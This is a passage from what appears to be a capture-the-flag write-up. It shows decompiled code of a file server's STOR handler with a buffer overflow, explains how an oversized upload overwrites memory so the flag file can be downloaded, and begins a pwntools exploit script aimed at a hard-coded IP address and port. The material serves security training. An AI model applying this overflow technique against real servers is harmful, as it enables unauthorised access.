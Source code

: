 ```c STOR function
sub_4014F8(*(_DWORD *)a1, "transfer starting.\n");
while ( 1 )
{
    v6 = recv(*(_DWORD *)(a1 + 4), byte_604200, 0xAuLL, 0);
    if ( v6 < 0 )
        break;
    if ( !v6 )
        goto LABEL_8;
    v5 += v6;
}

sub_4014F8(*(_DWORD *)a1, "error receiving file");

LABEL_8:
    printf("Storing file %s", *(_QWORD *)(a1 + 24));
    byte_604200[(signed __int64)(signed int)v5] = 0; // overflow vulnerability
    v3 = dword_604404++;
    LODWORD(v4) = sub_40139B(v7, v5);
    qword_604840[v3] = v4;
    sub_4014F8(*(_DWORD *)a1, "transfer complete\n");
    result = sub_4023DF(a1, 4207204LL);
```

Here in the `STOR` function, **if we upload a file that is big enough, we can overwrite the data at `0x604408`**. So it's quite simple: just create a file that is larger than 512 bytes, then upload it to the server. After that, we can download the `flag.txt` and get the flag.

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

#HOST = "localhost"
HOST = "54.175.183.202"
PORT = 12012
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
#context.arch = 'i386'
#context.arch = 'arm'
#context.arch = 'aarch64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

```